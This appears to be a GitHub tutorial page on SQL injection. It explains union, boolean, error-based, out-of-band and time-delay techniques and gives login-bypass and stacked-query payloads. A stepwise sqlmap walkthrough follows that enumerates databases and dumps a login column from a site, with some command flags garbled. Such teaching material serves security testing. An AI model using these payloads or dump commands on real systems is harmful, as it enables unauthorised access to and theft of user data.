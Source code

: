 # SQL Injection

SQL injection attack consists of insertion of either a partial or complete SQL query via the data input from the client (Browser) to Application (Server).

## SQL Injection Technique

-	***Union Operator:*** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
-	***Boolean:*** use Boolean condition(s) to verify whether certain conditions are true or false.
-	***Error based:*** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
-	***Out-of-band:*** technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
-	***Time delay:*** use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn’t have some kind of answer (result, output, or error) from the application

## Standard SQL Injection Testing

### Example 1 (classical SQL Injection):
Consider the following SQL query:
```
SELECT * FROM Users WHERE Username='$username' AND Password='$password'
$username = 1' or '1' = '1
$password = 1' or '1' = '1
The query will be:
SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1' 
```

### Example 2 (simple SELECT statement):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10
```

### Example 3 (Stacked queries):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10; INSERT INTO users (…)
```

![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png)

![image](https://user-images.githubusercontent.com/65315090/129912819-124fbe54-d140-4133-8a99-0a3092ba3b15.png)

## Tools for SQL Injection

### [SQLMap](https://sqlmap.org/)

**Step-1:** Find current database name
For URL: `sqlmap –u http://www.nayan.com/item_id=3 - -level=5 - -risk=3 - -current-db - -batch`
For Request: `sqlmap –r Desktop/test.txt - -level=5 - -risk=3 - -current-db - -batch`


**Step-2:** List DBMS database
  `sqlmap –u http://www.nayan.com/item_id=3 - -dbs`

**Step-3:** List Tables
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename - -tables`
  
**Step-4:** List columns on tables
	`sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info - - columns`
  
**Step-5:** List column data from columns
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info –C login - -dump`


